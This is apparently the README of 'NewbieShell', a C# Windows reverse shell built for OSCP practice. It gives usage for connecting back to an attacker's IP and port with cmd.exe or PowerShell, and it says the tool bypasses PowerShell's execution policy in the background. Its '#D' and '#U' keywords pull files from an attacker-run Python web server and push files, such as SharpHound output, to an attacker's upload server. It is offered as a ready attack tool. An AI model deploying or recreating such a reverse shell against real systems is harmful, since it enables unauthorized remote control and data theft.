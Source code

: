 # NewbieShell
### Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and a msfvenom payload for a connection. The most annoying thing for me was that when downloading and uploading software, it required a very long text. Since I like to program in C#, I thought I would just simplify this for myself. Through this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. 
Furthermore, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are two ways to use NewbieShell. The simple method in the Console.

``
NewbieShell.exe
``

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

``
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
``

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

``
python3 -m http.server 80
``

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

``
pip3 install uploadserver
``

After the web server or upload server is installed, then it can be run on the attacker machine.

``
python3 - m uploadserver 80
``

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

